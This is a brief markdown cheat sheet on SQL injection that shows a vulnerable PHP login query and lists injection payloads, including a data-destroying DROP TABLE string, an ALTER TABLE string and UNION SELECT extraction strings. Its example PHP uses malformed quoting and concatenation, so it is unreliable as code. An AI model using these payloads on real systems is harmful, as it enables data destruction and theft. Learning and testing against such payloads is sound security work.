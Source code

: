 # SQL Injection
## The basics

How an example of unsecure sql statement looks like:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>$_POST["username"]</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

To break the statement:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>1' OR 1+1--</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

<br>

### Simple SQL injection test
```SQL
'
1' OR 1+1--
\'
```

<br>

### Where table name is known
```SQL
1'; DROP TABLE {tablename} --

```

<br>

### Where column name is known
```SQL
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```
